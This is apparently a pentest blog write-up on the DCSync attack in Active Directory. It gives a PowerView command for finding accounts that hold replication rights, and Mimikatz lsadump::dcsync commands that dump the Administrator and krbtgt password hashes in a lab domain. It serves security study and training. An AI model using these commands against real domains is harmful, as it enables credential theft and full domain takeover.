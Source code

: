 ```yaml
---
title:  DCSync On Domain
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# DCSync

***DCSync*** attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators.

# Enumeration

## PowerView

### DCSync Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `DCSync` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.objectacetype -like "*DS-Replication-*")}

```

Below image shows the current user `usman` has DCSync right on `Domain` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserdcsync2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has DCSync right on `Domain` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserdcsync1.png)

# Exploitation

## Mimikatz

We will execute mimikatz `./mimikatz.exe`, then dump password hash of administrator by executing `lsadump::dcsync /domain:cyber.local /user:Administrator`.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserdcsync3.png)

In the above image, we were able to dump password hash of Administrator.

We can also dump password hash of krbtgt account by changing the user to `krbtgt` as follows:

`lsadump::dcsync /domain:cyber.local /user:krbtgt`.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserdcsync4.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
